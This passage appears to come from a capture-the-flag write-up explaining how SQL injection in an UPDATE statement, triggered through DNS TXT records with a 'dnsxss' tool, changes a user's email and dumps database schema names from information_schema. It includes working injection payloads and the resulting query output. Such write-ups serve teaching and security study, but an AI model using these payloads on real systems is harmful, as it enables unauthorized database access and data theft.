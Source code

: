 I'm not a fan of working blind, so I made my own version of this service locally, and turned on SQL errors. Then I got to work constructing an exploit! It was an UPDATE statement, so I couldn't directly exploit this - I could only read indirectly by altering my email address (as you'll see). I also couldn't figure out how to properly terminate the sql string (neither '#' nor '-- ' nor ';' properly terminated due to brackets). In the end, my payload would:

- Tack on an extra clause to the UPDATE that would set the 'email' field to another value
- Read properly right to the end, which means ending the query with "resetinfo='", so the "resetinfo" field gets set to all the remaining crap

So, let's give this a shot!

```
./dnsxss --payload="test', email='test1234', resetinfo='"
```

Then I create an account, reset the password from my ip address, and refresh. The full query—dumped from my test server—looks like:

```
<span class="Statement">update</span> users <span class="Statement">set</span> password=<span class="Constant">'catf7a252e008616c94'</span>, resetinfo=<span class="Constant">'test.skullseclabs.orgArray ( [0] => Array ( [host] => test.skullseclabs.org [class] => IN [ttl] => 1 [type] => TXT [txt] => test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">'.test.skullseclabs.org [entries] => Array ( [0] => test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">' ) ) ) '</span> <span class="Special">where</span> username=<span class="Constant">'ron'</span>
```

As you can see, that's quite a mess (note that the injected stuff appears twice.. super annoying). After that runs, the reset-password page looks like:

```

Don't worry ron, we're emailing you a new password at <strong>test1234</strong>

If you are not ron, we'll tell them something fishy is going on!
```

Sweet! I successfully changed my password!

But... what am I looking for?

MySQL has this super handy database called information\_schema, which contains tables called 'SCHEMATA', 'TABLES', and 'COLUMNS', and it's usually available for anybody to inspect. Let's dump SCHEMATA.SCHEMA\_NAME from everything:

```
./dnsxss --payload="test', email=(select group_concat(SCHEMA_NAME separator ', ') from information_schema.SCHEMATA), resetinfo='"
```

Then refresh a couple times to find:

```

Don't worry ron, we're emailing you a new password at <strong>information_schema, mysql, performance_schema, whatscat</strong>

If you are not ron, we'll tell them something fishy is going on!
```
